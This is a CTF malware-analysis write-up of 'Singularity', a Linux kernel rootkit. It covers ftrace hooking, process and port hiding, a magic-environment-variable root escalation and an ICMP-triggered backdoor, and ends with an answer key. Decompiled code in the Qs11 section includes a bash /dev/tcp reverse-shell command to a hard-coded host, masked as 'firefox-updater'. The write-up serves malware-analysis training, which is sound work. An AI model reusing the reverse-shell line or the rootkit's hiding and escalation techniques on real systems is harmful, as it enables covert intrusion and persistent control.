

# Singularity — Linux Kernel Rootkit Analysis


**Malops.io CTF Writeup**

`Category: Malware Analysis / Reverse Engineering`  `Target: Linux Kernel Module (LKM)`  `Tool: IDA Pro`

--- 

## Scenario

Our primary web server, critical to our daily operations, has been compromised. Over the past few weeks, our network monitoring tools have been flagging unusual outbound communications to an unknown command-and-control server on an unconventional port. The Digital Forensics and Incident Response (DFIR) team was immediately activated to investigate the anomaly. Initial analysis of the running processes and network connections on the live system revealed nothing out of the ordinary, suggesting a sophisticated attacker attempting to maintain stealth. Suspecting a kernel-level threat, the DFIR team captured a full memory dump of the compromised server for offline analysis. During the memory analysis, the team uncovered traces of a sophisticated Linux rootkit. This rootkit was actively hiding its presence and maintaining persistent access to our server. The DFIR team has successfully recovered the malicious kernel modules from the memory image. As a malware analyst, you have been provided with the recovered malicious modules. Your objective is to perform a thorough analysis of the rootkit and determine its capabilities.

---

## Overview

**Singularity** is a Linux Kernel Module (LKM) rootkit analyzed as part of a Malops.io CTF challenge. It uses ftrace infrastructure to hook core kernel and system functions, allowing it to hide files, processes, and network ports while bypassing advanced endpoint detection and eBPF security tools.

This writeup documents the full static analysis process performed in IDA Pro — from initial triage through decompilation, disassembly, and hex-value conversions — to answer each CTF question with direct evidence from the binary.

**Methodology:** 100% static analysis (no dynamic execution / debugging). Every answer below is backed by decompiled pseudocode and/or a disassembly screenshot captured directly from IDA.

---

## Table of Contents

1. [Qs1: SHA256 Hash of the Sample](#qs1-sha256-hash-of-the-sample)
2. [Qs2: Primary Initialization Function](#qs2-primary-initialization-function)
3. [Qs3: Number of Feature-Initialization Calls](#qs3-number-of-feature-initialization-calls)
4. [Qs4: Anti-Forensics Kernel Thread Name](#qs4-anti-forensics-kernel-thread-name)
5. [Qs5: Maximum Hidden PID Limit](#qs5-maximum-hidden-pid-limit)
6. [Qs6: Function That Hides the Rootkit Module](#qs6-function-that-hides-the-rootkit-module)
7. [Qs7: Hidden TCP Port Number](#qs7-hidden-tcp-port-number)
8. [Qs8: Privilege Escalation Magic Word](#qs8-privilege-escalation-magic-word)
9. [Qs9: Number of Privilege Escalation Hooks](#qs9-number-of-privilege-escalation-hooks)
10. [Qs10: C2 Server IPv4 Address](#qs10-c2-server-ipv4-address)
11. [Qs11: C2 Server Port Number](#qs11-c2-server-port-number)
12. [Qs12: Backdoor Trigger Protocol](#qs12-backdoor-trigger-protocol)
13. [Qs13: Magic ICMP Sequence Number](#qs13-magic-icmp-sequence-number)
14. [Qs14: Reverse Shell Dispatch Function](#qs14-reverse-shell-dispatch-function)
15. [Qs15: Reverse Shell Process Name](#qs15-reverse-shell-process-name)
16. [Summary of Findings](#summary-of-findings)

---

## Quick Reference — Answer Key

| # | Question | Answer |
|---|---|---|
| Qs1 | SHA256 hash of the sample | `0b8ecdaccf492000f3143fa209481eb9db8c0a29da2b79ff5b7f6e84bb3ac7c8` |
| Qs2 | Primary initialization function | `init_module` (`singularity_init`) |
| Qs3 | Feature-initialization calls | `15` |
| Qs4 | Anti-forensics kernel thread name | `zer0t` |
| Qs5 | Maximum hidden PID limit | `32` |
| Qs6 | Function that hides the module | `module_hide_current` |
| Qs7 | Hidden TCP port (decimal) | `18081` |
| Qs8 | Privilege escalation magic word | `babyelephant` |
| Qs9 | Privilege escalation hook count | `10` |
| Qs10 | C2 IPv4 address | `192.168.5.128` |
| Qs11 | C2 port | `443` |
| Qs12 | Backdoor trigger protocol | `ICMP` |
| Qs13 | Magic ICMP sequence number | `1999` |
| Qs14 | Reverse shell dispatch function | `spawn_revshell` |
| Qs15 | Reverse shell process name | `firefox-updater` |

---

## Qs1: SHA256 Hash of the Sample

> **Question:** What is the SHA256 hash of the sample?

**Answer:**

```text
0b8ecdaccf492000f3143fa209481eb9db8c0a29da2b79ff5b7f6e84bb3ac7c8
```

**Finding:** Retrieved directly from VirusTotal's **Basic Properties** panel for the submitted sample.

<details>
<summary>Artifact — Basic Properties (VirusTotal)</summary>


</details>

---

## Qs2: Primary Initialization Function

> **Question:** What is the name of the primary initialization function called when the module is loaded?

**Answer:**

```text
init_module
```

**Finding:** IDA identifies `singularity_init()` as the module's entry point, with `init_module` listed as its alternate/exported name — the standard entry symbol the kernel calls on `insmod`. The routine orchestrates initialization of every rootkit capability (hiding, hooking, privilege escalation, backdoor, etc.) in sequence.

<details>
<summary>Decompiled Pseudocode</summary>

```c
// Alternative name is 'init_module'
int __cdecl singularity_init()
{
  int v0; // ebx
  int v1; // ebx
  int v2; // ebx
  int v3; // ebx
  int v4; // ebx
  int v5; // ebx
  int v6; // ebx
  int v7; // ebx
  int v8; // ebx
  int v9; // ebx
  int v10; // ebx
  int v11; // ebx
  int v12; // ebx
  int v13; // ebx

  _fentry__();
  v0 = reset_tainted_init();
  v1 = hiding_open_init() | v0;
  v2 = become_root_init() | v1;
  v3 = hiding_directory_init() | v2;
  v4 = hiding_stat_init() | v3;
  v5 = hiding_tcp_init() | v4;
  v6 = hooking_insmod_init() | v5;
  v7 = clear_taint_dmesg_init() | v6;
  v8 = hooks_write_init() | v7;
  v9 = hiding_chdir_init() | v8;
  v10 = hiding_readlink_init() | v9;
  v11 = bpf_hook_init() | v10;
  v12 = hiding_icmp_init() | v11;
  v13 = trace_pid_init() | v12;
  module_hide_current();
  return v13;
}
```

**Disassembly View:**


</details>

---

## Qs3: Number of Feature-Initialization Calls

> **Question:** How many distinct feature-initialization functions are called within the above-mentioned function?

**Answer:**

```text
15
```

**Finding:** `singularity_init()` invokes **15** distinct feature-specific `_init()` calls (visible in the [Qs2 pseudocode](#qs2-primary-initialization-function) above), covering process/directory/file hiding, network hiding, syscall hooking, privilege escalation, anti-forensics, and BPF/ICMP handling:

`reset_tainted_init`, `hiding_open_init`, `become_root_init`, `hiding_directory_init`, `hiding_stat_init`, `hiding_tcp_init`, `hooking_insmod_init`, `clear_taint_dmesg_init`, `hooks_write_init`, `hiding_chdir_init`, `hiding_readlink_init`, `bpf_hook_init`, `hiding_icmp_init`, `trace_pid_init` — plus `module_hide_current()` called separately at the end (not counted as a feature-init).

---

## Qs4: Anti-Forensics Kernel Thread Name

> **Question:** The `reset_tainted_init` function creates a kernel thread for anti-forensics. What is the hardcoded name of this thread?

**Answer:**

```text
zer0t
```

**Finding:** `reset_tainted_init()` locates the kernel's `tainted_mask` via a `kprobe`, then spawns a cleanup thread through `kthread_create_on_node()`. The hardcoded thread name passed to that call is `"zer0t"`.

<details>
<summary>Decompiled Pseudocode</summary>

```c
int __cdecl reset_tainted_init()
{
  kprobe_opcode_t *addr; // rbx
  task_struct *v1; // rax
  task_struct *v2; // rbx
  int pid; // edi

  if ( (int)register_kprobe(a1: &probe_lookup) < 0
    || (addr = probe_lookup.addr, unregister_kprobe(a1: &probe_lookup), addr == nullptr) )
  {
    taint_mask_ptr = nullptr;
    goto LABEL_7;
  }
  taint_mask_ptr = (unsigned __int64 *)((__int64 (__fastcall *)(const char *))addr)(a1: "tainted_mask");
  if ( taint_mask_ptr == nullptr )
  {
LABEL_7:
    LODWORD(v1) = -14;
    return (int)v1;
  }
  v1 = (task_struct *)kthread_create_on_node(a1: zt_thread, a2: 0, a3: 0xFFFFFFFFLL, a4: "zer0t");
  v2 = v1;
  if ( (unsigned __int64)v1 > 0xFFFFFFFFFFFFF000LL )
  {
    cleaner_thread = v1;
  }
  else
  {
    wake_up_process(a1: v1);
    pid = v2->pid;
    cleaner_thread = v2;
    add_hidden_pid(pid);
    LODWORD(v1) = 0;
  }
  return (int)v1;
}
```

**Disassembly View:**


</details>

---

## Qs5: Maximum Hidden PID Limit

> **Question:** The `add_hidden_pid` function has a hardcoded limit. What is the maximum number of PIDs the rootkit can hide?

**Answer:**

```text
32
```

**Finding:** `add_hidden_pid()` enforces a maximum hidden-PID count via the disassembly comparison `cmp ecx, 20h`. Since `0x20 = 32`, the rootkit can track up to **32** hidden PIDs at once.

<details>
<summary>Decompiled Pseudocode</summary>

```c
void __fastcall add_hidden_pid(int pid)
{
  int v1; // ecx
  __int64 v2; // rsi
  int *v3; // rax

  v1 = hidden_count;
  v2 = hidden_count;
  if ( hidden_count <= 0 )
  {
LABEL_7:
    hidden_pids[v2] = pid;
    hidden_count = v1 + 1;
  }
  else
  {
    v2 = hidden_count;
    v3 = hidden_pids;
    while ( *v3 != pid )
    {
      if ( ++v3 == &hidden_pids[hidden_count] )
      {
        if ( hidden_count == 32 )
          return;
        goto LABEL_7;
      }
    }
  }
}
```

**Disassembly View:**


</details>

---

## Qs6: Function That Hides the Rootkit Module

> **Question:** What is the name of the function called last within `init_module` to hide the rootkit itself?

**Answer:**

```text
module_hide_current
```

**Finding:** `module_hide_current()` is the final call inside `singularity_init()` — see the last line of the [Qs2 pseudocode](#qs2-primary-initialization-function) — confirming the rootkit hides its own kernel module only *after* every other feature has finished initializing.

<details>
<summary>Disassembly View</summary>


</details>

---

## Qs7: Hidden TCP Port Number

> **Question:** The TCP port hiding module is initialized. What is the hardcoded port number it is configured to hide (decimal)?

**Answer:**

```text
18081
```

**Finding:** `hooked_tcp4_seq_show()` compares a connection's port field against `0xA146`. Because the field is stored in **network byte order (big-endian)**, IDA displays it as signed `-24250`. Converting and byte-swapping this value yields decimal **18081**.

<details>
<summary>Decompiled Pseudocode</summary>

```c
__int64 __fastcall hooked_tcp4_seq_show(seq_file *seq, void *v)
{
  int v3; // r12d
  __int16 v4; // r14
  __int16 v6; // r13
  int v7; // r12d

  if ( v == (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1 )
    return orig_tcp4_seq_show(a1: seq, a2: (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1);
  v3 = *((_DWORD *)v + 198);
  v4 = *((_WORD *)v + 6);
  v6 = *((_WORD *)v + 399);
  if ( v3 == (unsigned int)in_aton(a1: "192.168.5.128") )
    return 0;
  v7 = *(_DWORD *)v;
  if ( v7 == (unsigned int)in_aton(a1: "192.168.5.128") || v6 == -24250 || v4 == -24250 )
    return 0;
  else
    return orig_tcp4_seq_show(a1: seq, a2: v);
}
```

**Conversion — signed value → unsigned → byte-swap → decimal:**

```text
-24250 + 65536 = 41286 = 0xA146
0xA146 → Byte Swap → 0x46A1 → Decimal → 18081
```

**CyberChef Tool Usage:**


**Disassembly View:**


</details>

---

## Qs8: Privilege Escalation Magic Word

> **Question:** What is the hardcoded "magic word" string checked for by the privilege escalation module?

**Answer:**

```text
babyelephant
```

**Finding:** The privilege-escalation hook grants root when a process named `bash` has `MAGIC=babyelephant` set in its environment.

<details>
<summary>Step 1 — Identify the privilege-escalation hook installer</summary>

`become_root_init()` installs the predefined hook table via `fh_install_hooks()`:

```c
int __cdecl become_root_init()
{
  return fh_install_hooks(hooks, 0xAu);
}
```


</details>

<details>
<summary>Step 2 — Trace the installed hooks</summary>

Following the `hooks` table in IDA resolves each installed hook. Among them, `hook_getuid()` is the function responsible for the privilege-escalation logic.


</details>

<details>
<summary>Step 3 — Inspect hook_getuid()</summary>

`hook_getuid()` first confirms the calling process name is `"bash"`, then reads the process environment (via `access_process_vm`) and searches it with `strstr()` for a hardcoded marker string.

```c
__int64 __fastcall hook_getuid(const pt_regs *regs)
{
  unsigned __int64 v1; // rbp
  __int64 v3; // r12
  __int64 v4; // rax
  const char *v5; // r13
  int v6; // eax
  char *v7; // rdx
  __int64 v8; // rax
  _QWORD *v9; // rax

  v1 = __readgsqword((unsigned int)&const_pcpu_hot);
  if ( strcmp(s1: (const char *)(v1 + 2976), s2: "bash") == 0 )
  {
    v3 = *(_QWORD *)(v1 + 2304);
    if ( v3 != 0 && *(_QWORD *)(v3 + 384) != 0 && *(_QWORD *)(v3 + 392) != 0 )
    {
      v4 = _kmalloc_cache_noprof(a1: kmalloc_caches[12], a2: 2080, a3: 4096);
      v5 = (const char *)v4;
      if ( v4 != 0 )
      {
        v6 = access_process_vm(a1: v1, a2: *(_QWORD *)(v3 + 384), a3: v4, a4: 4095, a5: 0);
        if ( v6 > 0 )
        {
          if ( v6 != 1 )
          {
            v7 = (char *)v5;
            v8 = (__int64)&v5[v6 - 2 + 1];
            do
            {
              if ( *v7 == 0 )
                *v7 = 32;
              ++v7;
            }
            while ( v7 != (char *)v8 );
          }
          if ( strstr(haystack: v5, needle: "MAGIC=babyelephant") != nullptr )
          {
            v9 = (_QWORD *)prepare_creds();
            if ( v9 != nullptr )
            {
              v9[1] = 0;
              v9[2] = 0;
              v9[3] = 0;
              v9[4] = 0;
              commit_creds(a1: v9);
            }
          }
        }
        kfree(a1: v5);
      }
    }
  }
  return orig_getuid(a1: regs);
}
```

The magic string lives in the read-only data section (`.rodata.str1.1`) and is referenced by `hook_getuid()` as the `strstr()` search needle: `MAGIC=babyelephant`.

**Disassembly View:**


</details>

---

## Qs9: Number of Privilege Escalation Hooks

> **Question:** How many hooks, in total, does the `become_root_init` function install to enable privilege escalation?

**Answer:**

```text
10
```

**Finding:** `become_root_init()` passes the hook table to `fh_install_hooks()` with a count argument of `0xA` (see [Qs8 Step 1](#qs8-privilege-escalation-magic-word)). `0xA` = **10** in decimal.

```c
int __cdecl become_root_init()
{
  return fh_install_hooks(hooks, 0xAu);
}
```

**Verdict:** `become_root_init()` installs 10 hooks as part of the privilege-escalation functionality.

---

## Qs10: C2 Server IPv4 Address

> **Question:** What is the hardcoded IPv4 address of the C2 server?

**Answer:**

```text
192.168.5.128
```

**Finding:** `hooked_tcp4_seq_show()` (the same function analyzed in [Qs7](#qs7-hidden-tcp-port-number)) hardcodes this address and passes it to `in_aton()`, comparing it against both the source and destination fields of active TCP connections to filter them from `/proc/net/tcp`.

```c
if ( v3 == (unsigned int)in_aton(a1: "192.168.5.128") )
  return 0;
...
if ( v7 == (unsigned int)in_aton(a1: "192.168.5.128") || v6 == -24250 || v4 == -24250 )
  return 0;
```

*Full function listing available in [Qs7](#qs7-hidden-tcp-port-number).*

<details>
<summary>Disassembly View</summary>


</details>

---

## Qs11: C2 Server Port Number

> **Question:** What is the hardcoded port number the C2 server listens on?

**Answer:**

```text
443
```

**Finding:** The reverse-shell payload connects back to `192.168.5.128:443`. Tracing this required following the chain: ICMP hook installer → `hook_icmp_rcv()` trigger logic → `spawn_revshell()` payload.

<details>
<summary>Step 1 — Identify the ICMP hook installer</summary>

`hiding_icmp_init()` installs the `hooks_9` table via `fh_install_hooks()` with a count of `1`.

```c
int __cdecl hiding_icmp_init()
{
  return fh_install_hooks(hooks_9, 1u);
}
```


</details>

<details>
<summary>Step 2 — Resolve the hook target</summary>

Following the `hooks_9` table reveals a single `ftrace_hook` entry targeting `hook_icmp_rcv()`, establishing it as the function that processes intercepted ICMP traffic.



</details>

<details>
<summary>Step 3 — Analyze hook_icmp_rcv()</summary>

`hook_icmp_rcv()` validates several conditions on each inbound packet before triggering the payload: the IP protocol must be ICMP (`1`), the source address must match the hardcoded `192.168.5.128` (converted via `in4_pton()`), the ICMP type must be an Echo Request (`8`), and the sequence number must match a hardcoded magic value (`0xCF07`, see [Qs13](#qs13-magic-icmp-sequence-number)). Once satisfied, it queues `spawn_revshell` as a work-item callback.

```c
int __fastcall hook_icmp_rcv(sk_buff *skb)
{
  unsigned __int8 *head; // rdx
  __int64 network_header; // rax
  bool v4; // zf
  unsigned __int8 *v5; // rax
  unsigned __int8 *v6; // rbp
  unsigned __int8 *v8; // r12
  _QWORD *v9; // rax
  __int64 v10; // rsi
  u32 trigger_ip; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 v12; // [rsp+8h] [rbp-20h]

  v12 = __readgsqword(0x28u);
  trigger_ip = 0;
  if ( skb != nullptr )
  {
    head = skb->head;
    network_header = skb->network_header;
    v4 = &head[network_header] == nullptr;
    v5 = &head[network_header];
    v6 = v5;
    if ( !v4 && v5[9] == 1 )
    {
      v8 = &head[skb->transport_header];
      if ( v8 != nullptr
        && (unsigned int)in4_pton(a1: "192.168.5.128", a2: 0xFFFFFFFFLL, a3: &trigger_ip, a4: 0xFFFFFFFFLL, a5: 0) != 0
        && *((_DWORD *)v6 + 3) == trigger_ip
        && *v8 == 8
        && *((_WORD *)v8 + 3) == 0xCF07 )
      {
        v9 = (_QWORD *)_kmalloc_cache_noprof(a1: kmalloc_caches[5], a2: 2080, a3: 32);
        if ( v9 != nullptr )
        {
          v9[3] = spawn_revshell;
          v10 = system_wq;
          *v9 = 0xFFFFFFFE00000LL;
          v9[1] = v9 + 1;
          v9[2] = v9 + 1;
          queue_work_on(a1: 0x2000, a2: v10);
        }
      }
    }
  }
  return orig_icmp_rcv(a1: skb);
}
```

**Disassembly View:**


</details>

<details>
<summary>Step 4 — Trace spawn_revshell()</summary>

Following the `spawn_revshell` cross-reference leads to the function that builds and executes the reverse-shell command. The `snprintf()` format string exposes the hardcoded C2 endpoint: `192.168.5.128:443`.

```c
void __fastcall spawn_revshell(work_struct *work)
{
  __int64 v2; // rdx
  __int64 v3; // rdi
  __int64 v4; // rsi
  __int64 v5; // rax
  int v6; // ebp
  int v7; // eax
  __int64 v8; // rax
  __int64 v9; // rdx
  __int64 v10; // rdi
  __int64 v11; // rsi
  __int64 v12; // rbx
  __int64 i; // r14
  int v14; // r12d
  _QWORD argv[5]; // [rsp+0h] [rbp-360h] BYREF
  char cmd[768]; // [rsp+28h] [rbp-338h] BYREF
  unsigned __int64 v17; // [rsp+328h] [rbp-38h]

  v17 = __readgsqword(0x28u);
  argv[0] = "/usr/bin/setsid";
  argv[1] = "/bin/bash";
  argv[2] = "-c";
  argv[4] = 0;
  memset(cmd, 0, sizeof(cmd));
  snprintf(
    s: cmd,
    maxlen: 0x300u,
    format: "bash -c 'PID=$$; kill -59 $PID; exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1' &",
    "firefox-updater",
    "192.168.5.128",
    "443");
  argv[3] = cmd;
  _rcu_read_lock();
  v5 = init_task[278];
  if ( (_QWORD *)v5 == &init_task[278] )
  {
    v6 = 0;
  }
  else
  {
    v2 = v5 - 2224;
    v6 = 0;
    do
    {
      v7 = *(_DWORD *)(v5 + 208);
      if ( v6 < v7 )
        v6 = v7;
      v5 = *(_QWORD *)(v2 + 2224);
      v2 = v5 - 2224;
    }
    while ( (_QWORD *)v5 != &init_task[278] );
  }
  _rcu_read_unlock(a1: v3, a2: v4, a3: v2);
  v8 = call_usermodehelper_setup(a1: argv[0], a2: argv, a3: envp_0, a4: 3264, a5: 0, a6: 0, a7: 0);
  if ( v8 != 0 )
    call_usermodehelper_exec(a1: v8, a2: 2);
  msleep(a1: 1500);
  _rcu_read_lock();
  v12 = init_task[278];
  for ( i = v12 - 2224; (_QWORD *)v12 != &init_task[278]; i = v12 - 2224 )
  {
    v14 = *(_DWORD *)(v12 + 208);
    if ( v14 > v6
      && *(_QWORD *)(v12 + 80) != 0
      && (strstr(haystack: (const char *)(v12 + 752), needle: "firefox-updater") != nullptr
       || strstr(haystack: (const char *)(v12 + 752), needle: "setsid") != nullptr) )
    {
      add_hidden_pid(pid: v14);
      add_hidden_pid(pid: *(_DWORD *)(v12 + 212));
    }
    v12 = *(_QWORD *)(i + 2224);
  }
  _rcu_read_unlock(a1: v10, a2: v11, a3: v9);
  kfree(a1: work);
}
```

The `/dev/tcp/<IP>/<PORT>` bash construct confirms the rootkit dials back to the hardcoded C2 endpoint.

**Disassembly View:**


</details>

---

## Qs12: Backdoor Trigger Protocol

> **Question:** What network protocol is hooked to listen for the backdoor trigger?

**Answer:**

```text
ICMP
```

**Finding:** `hook_icmp_rcv()` (full listing in [Qs11 Step 3](#qs11-c2-server-port-number)) checks the IP protocol field of every inbound packet:

```c
if ( !v4 && v5[9] == 1 )
```

A value of `1` in the IPv4 protocol field identifies **ICMP**. The function then validates the ICMP header fields (type `8` = Echo Request, source `192.168.5.128`, sequence `0xCF07`) before dispatching the reverse shell.

---

## Qs13: Magic ICMP Sequence Number

> **Question:** What is the "magic" sequence number that triggers the reverse shell (decimal)?

**Answer:**

```text
1999
```

**Finding:** `hook_icmp_rcv()` compares the ICMP sequence field against the hardcoded value `0xCF07` (see full listing in [Qs11 Step 3](#qs11-c2-server-port-number)). Since ICMP header fields are stored in network byte order (big-endian), the value must be byte-swapped before conversion:

```text
0xCF07  →  Byte Swap  →  0x07CF
0x07CF  →  Decimal    →  1999
```

<details>
<summary>Artifacts</summary>

**CyberChef Tool Usage:**


**Disassembly View:**


</details>

---

## Qs14: Reverse Shell Dispatch Function

> **Question:** When the trigger conditions are met, what is the name of the function queued to execute the reverse shell?

**Answer:**

```text
spawn_revshell
```

**Finding:** Once every ICMP trigger condition is satisfied, `hook_icmp_rcv()` (see [Qs11 Step 3](#qs11-c2-server-port-number)) allocates a work item and assigns `spawn_revshell` as its callback before queuing it for execution:

```c
v9[3] = spawn_revshell;
...
queue_work_on(a1: 0x2000, a2: v10);
```

<details>
<summary>Disassembly View</summary>


</details>

---

## Qs15: Reverse Shell Process Name

> **Question:** The `spawn_revshell` function launches a process. What is the hardcoded process name it uses for the reverse shell?

**Answer:**

```text
firefox-updater
```

**Finding:** `spawn_revshell()` (full listing in [Qs11 Step 4](#qs11-c2-server-port-number)) builds its command with `snprintf()`, passing `"firefox-updater"` into the `%s` placeholder consumed by `exec -a`, which overwrites `argv[0]` — masquerading the reverse-shell process under a legitimate-looking name:

```text
exec -a "%s" /bin/bash &>/dev/tcp/%s/%s 0>&1
                ↳ "firefox-updater"
```

The same string is later used to re-identify and hide the spawned process:

```c
strstr(haystack: ..., needle: "firefox-updater")
```

<details>
<summary>Artifacts</summary>

**Disassembly View:**


</details>

---

## Summary of Findings

| Capability | Detail |
|---|---|
| Entry point | `init_module` / `singularity_init()` — chains 15 feature-init calls |
| Self-hiding | `module_hide_current()`, called last during init |
| Anti-forensics | Dedicated kernel thread `zer0t`, resets the `tainted_mask` |
| Process hiding | Up to 32 PIDs tracked via `add_hidden_pid()` |
| Network hiding | Filters TCP port `18081` from `/proc/net/tcp` |
| Privilege escalation | `hook_getuid()` grants root to any `bash` process with `MAGIC=babyelephant` in its environment (10 hooks installed total) |
| Backdoor trigger | Crafted ICMP Echo Request from `192.168.5.128` with sequence number `1999` |
| Reverse shell | `spawn_revshell()` connects back to `192.168.5.128:443`, masquerading as `firefox-updater` |

---

## Tools Used

- **IDA Pro** — disassembly, decompilation (Hex-Rays), cross-reference tracing
- **VirusTotal** — sample hashing / basic properties lookup
- Manual hex ⇄ decimal / byte-order conversion for network byte-order fields

## Disclaimer

This writeup is for educational and CTF documentation purposes only. All IP addresses, ports, and strings referenced are specific to the Malops.io "Singularity" challenge sample and are not associated with any real infrastructure.


